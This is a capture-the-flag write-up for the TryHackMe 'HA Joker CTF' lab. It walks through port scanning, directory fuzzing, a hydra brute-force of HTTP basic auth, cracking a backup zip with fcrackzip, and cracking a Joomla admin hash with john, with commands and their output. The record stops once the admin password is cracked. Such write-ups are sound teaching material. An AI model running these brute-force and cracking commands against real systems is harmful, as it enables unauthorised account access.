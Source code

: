 # HA Joker CTF



Room link: https://tryhackme.com/room/jokerctf

## Enumeration 

Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29
```


ffuf

```
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97]
phpinfo.php             [Status: 200, Size: 94858, Words: 4706, Lines: 1160]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
```

secret.txt

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

http://10.10.68.63/phpinfo.php

## port 8080 (Brute Force)

basic auth brute force with the user name Joker

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.68.63 http-get / -f -V 

[8080][http-get] host: 10.10.68.63   login: joker   password: hannah
```

enum the new web directorys

```bash
ffuf -u "http://10.10.68.63:8080//FUZZ" -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -c   -mc all  -fc 404,403,301 -e .html,.txt,.php,.zip -H "Authorization: Basic am9rZXI6aGFubmFo"

backup                  [Status: 200, Size: 12133560, Words: 0, Lines: 0]
backup.zip              [Status: 200, Size: 12133560, Words: 0, Lines: 0]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33]
robots                  [Status: 200, Size: 836, Words: 88, Lines: 33]
configuration.php       [Status: 200, Size: 0, Words: 1, Lines: 1]
htaccess                [Status: 200, Size: 3005, Words: 438, Lines: 81]
htaccess.txt            [Status: 200, Size: 3005, Words: 438, Lines: 81]
                        [Status: 200, Size: 10925, Words: 776, Lines: 218]
```


Download the backup file and crack the password

```
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup                                                    1 ⨯
possible pw found: hannah ()
```                              

# Crack admin password from backup joomla.sql file. 

![image](https://user-images.githubusercontent.com/5285547/134673619-e5b03ea5-058f-4322-9ec5-4d618df18930.png)


```
echo "$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 

abcd1234         (?)
```

![image](https://user-images.githubusercontent.com/5285547/134673748-95bd57b8-85f5-41af-b36b-f402003514c5.png)

